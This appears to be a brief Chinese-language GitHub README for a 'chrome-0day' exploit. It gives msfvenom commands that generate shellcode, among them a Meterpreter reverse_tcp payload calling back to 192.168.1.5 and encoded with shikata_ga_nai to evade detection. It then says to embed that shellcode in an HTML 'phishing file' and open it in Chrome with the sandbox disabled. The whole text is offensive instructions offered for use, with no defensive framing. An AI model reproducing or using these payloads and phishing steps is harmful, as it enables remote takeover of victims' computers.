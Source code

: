 # chrome-0day
### 生成shellcode代码



```msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num```



msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c



### 制作html钓鱼文件



将生成的代码放入html中shellcode[]中。

浏览器关闭沙盒并打开网页

```
chrome.exe --no-sanbox /path/to/exploit.html
```





